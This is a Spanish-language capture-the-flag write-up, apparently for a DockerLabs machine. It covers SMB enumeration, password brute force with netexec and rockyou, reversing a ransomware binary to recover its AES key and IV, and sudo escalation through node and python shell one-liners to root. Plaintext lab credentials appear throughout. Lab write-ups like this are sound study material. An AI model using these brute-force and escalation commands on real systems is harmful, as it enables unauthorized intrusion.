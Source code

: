 nmap: 22,139,445

![image](https://github.com/user-attachments/assets/931baef1-b5a7-4fd8-b6e5-f179f512ec2b)


Hacemos una enumeración de la IP

     enum4linux 172.17.0.2

nos da

![image](https://github.com/user-attachments/assets/2d2e925e-c849-46ac-959a-32170bd1e827)

ransomware y dos 3 usuarios

![image](https://github.com/user-attachments/assets/a0c6f96b-478e-489f-9c9c-8f2ddc9d8104)

creamos una carpeta con los 3 usuarios  y lanzamos una fuerza bruta

     netexec smb 172.17.0.2 -u user.txt  -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding

![image](https://github.com/user-attachments/assets/8bcd7bc4-4752-49dc-8183-bb58df2873fa)

probé en ssh y no sirvió pero probamos con el archivo de "ransomware" como es smb intentamos entrar al client

![image](https://github.com/user-attachments/assets/04f71239-4000-464e-b68e-a9208c39b2ca)

tenemos acceso
el contenido de lo que hay es

![image](https://github.com/user-attachments/assets/d665b555-67f7-43d4-8b1f-db9781466551)

ahora para intentar desencriptar el archivo private.txt es necesario hacerle reversing al binario, por lo que hago reversing con ghidra 
viendo el código el algoritmo de cifrado el cual es "AES-256-CBC". por lo que encontré la clave debe tener 32 bytes y el IV debe tener 16. después vemos que  "local_438" hace referencia a "local_438" y "local_430" entonces me da un valor: 1234567890123456
 podemos ver que se le pasa local_428, la cual es una variable que contiene el resultado de la ejecución de la función recon que aparece así
> y0qpfjxbd79047929ew0omqad3f4gscl

encontré un código python que sirve 

![image](https://github.com/user-attachments/assets/19a628e9-9362-4c93-8446-6b9bd9b271ae)

ejecutamos con python en una maquina virtual interna para que funcione el pip

![image](https://github.com/user-attachments/assets/725752b0-9ba5-4ed3-b184-0bb72fca4803)

y nos dio 

      las credenciales ssh son: bob:56000nmqpL

probamos por ssh y tenemos la conexión 

![image](https://github.com/user-attachments/assets/97ea4ba6-06ce-4437-9a32-9f679040763f)

hacemos sudo -l y nos aparece node así que la buscamos https://gtfobins.github.io/gtfobins/node/#sudo

![image](https://github.com/user-attachments/assets/177b0524-935e-4d8d-8321-7360e0d9bfa7)

ahora lanzamos

    sudo -u calamardo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

![image](https://github.com/user-attachments/assets/3a53aad2-45ee-4800-8595-89d01a5cfb58)

buscando como escalar encontramos esto

![image](https://github.com/user-attachments/assets/bb2139f0-f9de-4db1-961d-1c287ca20472)

> patricio:Jap0n16ydcbd***

obtenemos conexión a patricio

![image](https://github.com/user-attachments/assets/9a67383d-2ca0-44ee-8a09-6f2cae6ea83d)

en patricio encontramos un python 

![[dockerlabs/dificil/rass/python1.png]]

después de buscar encontré este código en gtfobins https://gtfobins.github.io/gtfobins/python/

![[sudo2.png]]

ejecutamos

     ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'


![[dockerlabs/dificil/rass/root.png]]

lanzamos y obtenemos acceso a root! 
